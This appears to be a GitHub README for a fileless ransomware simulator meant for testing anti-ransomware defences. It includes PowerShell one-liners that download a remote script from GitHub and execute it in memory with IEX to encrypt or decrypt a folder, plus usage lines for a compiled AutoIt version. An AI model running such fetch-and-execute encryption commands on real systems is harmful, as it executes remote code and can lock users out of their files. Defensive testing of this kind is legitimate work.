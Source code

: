 # RansomSimulator

Fileless ransomware simulator - to evaluate your anti-ransomware mitigation technology

**Example:**

Encryption - 

PS> IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/smgorelik/RansomSimulator/main/Invoke-RansomSIM.ps1");Invoke-RansomSIM -Mode Encrypt -Path 'C:\Users\tester\Documents\Test';

Decryption - 

PS> IEX (New-Object Net.WebClient).DownloadString("https://raw.githubusercontent.com/smgorelik/RansomSimulator/main/Invoke-RansomSIM.ps1");Invoke-RansomSIM -Mode Decrypt -Path 'C:\Users\tester\Documents\Test';

# BONUS
An autoIt script - you may compile it to an executable using Aut2Exe, or execute it using the interpreter

**Example:**

Encryption - 
RansomSIM.exe /encrypt <folder>
  
Decryption - 
RansomSIM.exe /decrypt <folder>


